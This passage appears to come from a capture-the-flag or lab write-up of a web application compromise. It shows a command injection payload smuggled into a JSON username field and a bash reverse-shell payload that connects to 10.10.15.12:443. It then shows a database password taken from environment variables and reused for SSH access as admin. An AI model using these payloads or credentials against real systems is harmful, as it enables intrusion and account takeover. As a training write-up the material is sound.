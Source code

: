 ```json
{"username":"test;id;"}
```

![Command Injection Success](images/Pasted%20image%2020250907223225.png)

**Successful Command Execution**: The `id` command was executed, confirming command injection vulnerability.

### Reverse Shell

```json
{"username":"test;bash -c 'exec bash -i &>/dev/tcp/10.10.15.12/443 <&1';"}
```

**Result**: Reverse shell obtained as `www-data` user.

## Lateral Movement

### Database Credential Discovery

Environment variable analysis revealed database credentials: **DB_PASSWORD**: SuperDuperPass123

### SSH Access

The database password was reused for the admin user account:

![SSH Access](images/Pasted%20image%2020250907223648.png)
